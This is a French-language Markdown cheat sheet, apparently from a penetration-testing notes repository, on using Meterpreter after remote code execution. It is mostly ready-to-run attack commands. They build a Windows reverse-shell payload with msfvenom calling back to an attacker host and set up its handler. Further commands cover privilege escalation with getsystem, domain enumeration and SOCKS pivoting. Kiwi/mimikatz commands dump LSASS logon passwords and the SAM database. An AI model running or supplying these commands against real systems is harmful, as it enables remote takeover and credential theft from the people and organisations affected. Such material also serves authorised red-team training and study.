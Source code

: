 # Meterpreter

> Tips pour utiliser la console meterpreter
>
> Outil de post exploitation lorsque l'on a une RCE.



### 1. Génération d'un payload

```bash
# -p : le payload à changer selon le contexte
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_HOTE> LPORT=<PORT_D_ECOUTE> -f exe -o meterpreter.exe

# Puis upload meterpreter.exe et l'exécuter
```



### 2. Setup d'un handler 

```bash
# ATTENTION : bien mettre le même payload que celui généré avec msfvenom
$ msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP_HOTE>
set LPORT <PORT_D_ECOUTE>
exploit
```



### 3. Utilisation de la console

> Tips et tricks pour utiliser la console meterpreter 

```bash
# voir l'écran de la machine
meterpreter> screenshare

# connaitre son utilisateur
meterpreter> getuid

# afficher les processus (sert à migrer dans un processus plus stable pour avoir un shell stable qui ne se coupe pas)
meterpreter> ps
meterpreter> migrate <PID>

# ouvrir une commande shell puis powershell
meterpreter> shell
shell> powershell

# exécuter un binaire
meterpreter> execute -f <BINAIRE.exe>

# passer NT\Autority System (il faut un compte admin local)
meterpreter> getsystem
meterpreter> migrate <PID_LSASS>
```



### 4. Exploits meterpreter utiles

> Liste d'exploits meterpreter utiles en TI

```bash
# Trouver le domaine et l'AD
meterpreter> use windows/gather/enum_domain

# Faire une route avec le réseau (sert à créer un proxy socks entre autre)
meterpreter> use multi/manage/autoroute
# Faire un proxy socks
meterpreter> use server/socks_proxy

# Dump lsass
meterpreter> use kiwi
meterpreter> kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
```

